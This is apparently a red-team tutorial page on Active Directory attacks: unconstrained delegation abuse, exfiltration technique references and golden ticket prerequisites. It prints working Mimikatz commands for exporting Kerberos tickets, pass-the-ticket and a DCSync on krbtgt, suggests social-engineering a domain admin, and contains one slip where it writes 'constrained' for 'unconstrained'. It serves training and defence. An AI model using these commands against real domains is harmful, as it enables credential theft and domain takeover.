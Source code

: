 ### Unconstrained Delegation

- In case when constrained delegation is enabled, DC places user’s TGT inside TGS. When the user presents it to server having unconstrained delegation enabled, that TGT is extracted from the TGS and stored in-memory.

- Adversary can export that TGT to access any other resource as that user. Now imagine the consequences when we get the TGT of a Domain Admin.

- List computers having Unconstrained Delegation Enabled : 

```powershell
Get-NetComputer –unconstrained -verbose
```

- Unconstrained Delegation Abuse Steps : 
  - Adversary can compromise the Server where Unconstrained Delegation is enabled.
  - Using Social engineering an adversary can trick the domain admin or any privileged user to connect to the already compromised server.
  - Extract the Domain Admin TGT : 

```powershell
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

  - Re-use the ticket to perform other operations as Domain Admin : 

```powershell
Invoke-Mimikatz –Command '"kerberos::ptt ticket.kirbi"'
```

  - Run DCSYNC Attack : 

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:cyberwarfare\krbtgt"'
```

### Persistence & Exfiltrate

- Once critical assets are identified with enough privileges, Adversaries will try to establish long-term persistence and try to exfiltrate data stealthly.

- For Data Exfiltration adversary can use various protocols to remain under the hood.

- Some of the data exfiltration techniques are mentioned below :*
  - https://attack.mitre.org/techniques/T1020
  - https://attack.mitre.org/techniques/T1048
  - https://attack.mitre.org/techniques/T1052
  - https://attack.mitre.org/techniques/T1537

### Golden Ticket Attack

- Golden ticket is signed and encrypted with the “krbtgt” account hash.

- The krbtgt account hash can be use to impersonate any user with any privileges.

- Requirements :
  - Domain SID
  - Krbtgt hash
  - Domain name
  - SIDS (in Cross-Forest Attacks)
